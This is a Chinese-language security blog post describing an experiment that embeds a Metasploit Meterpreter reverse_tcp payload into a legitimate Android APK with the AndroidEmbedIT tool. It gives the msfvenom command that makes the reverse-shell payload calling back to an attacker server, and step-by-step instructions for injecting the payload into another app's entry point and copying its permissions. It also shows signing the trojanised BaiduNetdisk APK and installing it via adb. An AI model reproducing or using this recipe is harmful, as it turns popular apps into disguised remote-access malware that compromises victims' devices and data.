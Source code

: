 ```yaml
---
layout:     post
title:      Meterpreter之Android APK嵌入攻击实验
date:       2018-12-15
author:     Wh0ale
header-img: img/wallhalla-36EDN6WhY0k.jpg
catalog: true
tags:
    - Meterpreter
    - 移动安全
---
```


最近在学习移动安全，刚好在先知看到一篇文章感觉很有意思就做了个实验
原文链接：https://xz.aliyun.com/t/2967?acc ... 9-9f74-6db67ec9a7f5
大家有啥更好的apk远控方法可以一块来交流交流
目前我知道的就只有
①DroidJack 不免杀
②SpyNote 不免杀
③CS生成  这个还没试过
④meterpreter嵌入apk

这里我用的的工具是：https://github.com/yoda66/AndroidEmbedIT
用法很简单只有三个参数

在先知上看的那篇文章手动修改apk文件总是出错，我弄了一下午没成功，后面直接就用的这个工具。

总结步骤
1.在“apkmonk.com”或类似的镜像站点上查找现有的有趣APK应用程序。
2.生成Metasploit APK文件。
3.用“apktool”反汇编Metasploit APK文件，以及我们打算修改的APK文件。
4.将所有Meterpreter smali代码复制到新的APK smali目录。
5.通过查找具有以下行的intent-filter，在APK应用程序的AndroidManifest.xml文件中找到代码的入口点 ：
<action android:name="android.intent.action.MAIN"/>
包含此intent-filter的活动名称将是您要搜索的入口点。
6.修改活动“.smali”文件以包含启动Meterpreter阶段的行。
7.将Meterpreter AndroidManifest.xml中的所有Meterpreter权限复制到修改后的APK的- AndroidManifest.xml中。
8.重新组装成DEX压缩格式生成APK。
9.使用“jarsigner”为新创建的APK文件签名，然后将其加载到目标Android设备上。


①.这里我是用的是之前学习移动安全用的diva-beta.apk
msfvenom -p android/meterpreter/reverse_tcp LHOST=服务器IP LPORT 9000 -o /tmp/msf.apk

②.我在自己服务器上用meterpreter生成apk

③生成证书
keytool -genkey -v -keystore cowboys.keystore -alias cowboys -keyalg RSA -keysiz e 2048 -validity 10000
输入密钥库口令:
再次输入新口令:
您的名字与姓氏是什么?
​    [Unknown]:  Pentest
您的组织单位名称是什么?
​    [Unknown]:  Myself
您的组织名称是什么?
​    [Unknown]:  Myself
您所在的城市或区域名称是什么?
​    [Unknown]:  BeiJing
您所在的省/市/自治区名称是什么?
​    [Unknown]:  BeiJing
该单位的双字母国家/地区代码是什么?
​    [Unknown]:  CN
CN=Pentest, OU=Myself, O=Myself, L=BeiJing, ST=BeiJing, C=CN是否正确

④安装apk
adb connect 192.168.125.105
adb devices
这里无法上传的原因是之前我就有装过diva-beta.apk
然后顺便一提，这里连接不上adb的原因
命令行输入：adb connect 172.16.4.37:5555 (:5555可省略）
​    提示：unable to connect to 172.16.4.37:5555
​    解决办法：
​    1）手机与PC相连，执行以下命令：adb tcpip 5555
​      成功提示：restarting in TCP mode port 5555
​      如果手机没有和PC连接，直接使用以上命令会提示 error:device not found
​      然后断开USB
​    2）接着执行adb connect 172.16.4.37:5555，这时候应该就能连接成功了
​      成功提示：connected to 172.16.4.37:5555

![1.png](https://www.t00ls.net/attachment.php?aid=NzExMDF8NTZhMjVmNDZ8MTU0NDcwOTg5MnxmNjU3QmFSNUJxckJ2MGRlWTNSUXg4V1dEa2JHMzRhTCtDZU05a2VaTXhUSWV1bw%3D%3D&noupdate=yes)

⑤使用脚本将msf.apk嵌入正常apk
python3 android_embedit.py -kp cowboys -kn cowboys -ks cowboys.keystore BaiduNetd isk_8.12.7.apk msf.apk
kp 指的是签名密钥
ks 为签名名称
ks 是keystore文件
生成效果大概是这样...我当时忘了截图

![2.png](https://www.t00ls.net/attachment.php?aid=NzExMDJ8NDdjMTI1YmF8MTU0NDcwOTg5MnxmNjU3QmFSNUJxckJ2MGRlWTNSUXg4V1dEa2JHMzRhTCtDZU05a2VaTXhUSWV1bw%3D%3D&noupdate=yes)

另外要提的是  当时我本来选定的apk是某云的，后来反编译的时候文件出错，一直没成功，弄了一下午就放弃了

![3.png](https://www.t00ls.net/attachment.php?aid=NzExMDN8ZDg1ZTc5M2Z8MTU0NDcwOTg5MnxmNjU3QmFSNUJxckJ2MGRlWTNSUXg4V1dEa2JHMzRhTCtDZU05a2VaTXhUSWV1bw%3D%3D&noupdate=yes)

⑥安装apk
adb install final.apk

⑦meterpreter上线

![4.png](https://www.t00ls.net/attachment.php?aid=NzExMDR8ZjRkN2UzNDB8MTU0NDcwOTg5MnxmNjU3QmFSNUJxckJ2MGRlWTNSUXg4V1dEa2JHMzRhTCtDZU05a2VaTXhUSWV1bw%3D%3D&noupdate=yes)	